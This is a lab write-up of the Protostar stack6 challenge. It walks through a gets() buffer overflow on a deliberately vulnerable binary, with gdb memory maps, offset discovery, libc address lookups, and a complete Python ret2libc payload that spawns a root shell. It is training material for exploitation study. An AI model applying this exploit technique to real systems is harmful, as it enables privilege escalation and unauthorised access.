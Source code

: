 ```yaml
---
title: Protostar Writeup - stack6
updated: 2018-10-09 21:45
---
```


## Protostar - stack6

Moving on to the next challenge. Here's where things get interesting. This challenge is actually based on a security mechanism(not really but similar), it basically won't execute anything on the stack, so how the f*** do we exploit this sucker? First have a look at the code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();  
}
```

Let's take a look at the `getpath()` method. If you've done the previous challenges this is simple, well almost. With one catch. The return address is restricted. Let's take a closer look at what this means...

```sh
$ gdb stack6
(gdb) break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack6/stack6.c:27
27      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) info proc map
process 2367
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0        
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0        
        0xb7fe0000 0xb7fe2000     0x2000          0        
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```

Using this command we can see the layout of how the memory is used for the process.
From the C code we see that we can't return to any address starting with `0xbf`.
From the map above we can see that this is roughly where the stack resides.
What this means is that executing instructions from the stack is a no go.

So, now what? We can't return to any address on the stack, injecting code is useless.
We will now 'try harder'. After a little investigation I came across return oriented programming or ROP for short.
What is ROP? ROP is a way of constructing your payload by using existing code present. So instead of using our stack address to return to, We use an existing address to return to. What we're essentially doing is creating a fake stack frame. It looks kind of like this.

![Call Stack Layout](https://upload.wikimedia.org/wikipedia/commons/thumb/d/d3/Call_stack_layout.svg/588px-Call_stack_layout.svg.png)

In order to call an existing function we need to follow this layout as it is a convention.
We're going to make use of the C standard library functions to craft our exploit. This is a modified ROP known as ret2libc. So basically we'll be making use of C existing library functions.

First things first, let's find the offset.

```sh
~ >>> ragg2 -P 256 -r                          
AAABAACAADAAEA...QABRABSABTABUABVABWABXAB
```

Use this as a pattern to find the offset.

```sh
(gdb) r
Starting program: /opt/protostar/bin/stack6
input path please: AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQA...
...

Program received signal SIGSEGV, Segmentation fault.
0x41416241 in ?? ()

~ >>> r2 -                                     
 -- Radare2, what else?
[0x00000000]> wopO 0x41416241
80
```

So once that's done we need to go function hunting. We need 2 function addresses, one `system()` and the other `exit()`. Note that `exit()` is here to satisfy the calling convention as our return pointer. It can be any function, but this goes for a much cleaner way to do things.

We can get those two fairly trivially using gdb.

```sh
$ gdb ./stack6
(gdb) break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack6/stack6.c:27
27      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

So those are the addresses we require, note them down somewhere, we'll use them in our exploit.
But wait, there's more we need a way to tell `system()` what parameters we've given it.
We can do this by following the calling convention. But since we can't store anything on the stack, we need another way. Why not use libc itself again, since we're ret2libc'ing anyways. What we need is an address to a string which says "/bin/sh", for a way to get `system()` to spawn a shell for us.

Here's how we do that...(assuming we know where libc is located)

```sh
$ strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh
```

Now this address is actually the offset. So we need to add this to the beginning of the address at which libc is loaded. From the memory map way above, we see that it starts at `0xb7e97000` so the actual location of the string will be `0xb7e97000 + 0x11f3bf`. This will be important for our exploit.

Now we can finally craft our exploit...

```python
import struct
def go():
  libc_start = 0xb7e97000
  string_offset = 0x11f3bf
  string_loc = libc_start + string_offset
  system_loc = 0xb7ecffb0
  exit_loc = 0xb7ec60c0
  padding = 'A' * 80
  payload = padding
  payload += struct.pack("I", system_loc)
  payload += struct.pack("I", exit_loc)
  payload += struct.pack("I", string_loc)
  print payload
go()
```

Exploiting in 3...2...1...using cat to hold the input.

```sh
$ (python /tmp/exploit.py; cat) | ./stack6
user@protostar:/opt/protostar/bin$ (python /tmp/exploit_stack6.py; cat) | ./stack6
input path please: got path AAA...
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```
And there you have it. Another fun challenge, this time by reusing existing resources by ROP.
I was pretty amused by this, I hope that you are too. Until next time, cheers!

P.S. The exploit-exercises website is most probably [dead](https://www.reddit.com/r/LiveOverflow/comments/9jyqmm/exploit_exercises_website_not_working/).

### Sites

[Call Stack](https://en.wikipedia.org/wiki/Call_stack#Stack_and_frame_pointers)
[Phrack](http://phrack.org/issues/49/14.html)
[Detailed ret2libc](https://0x00sec.org/t/exploiting-techniques-000-ret2libc/1833/2)
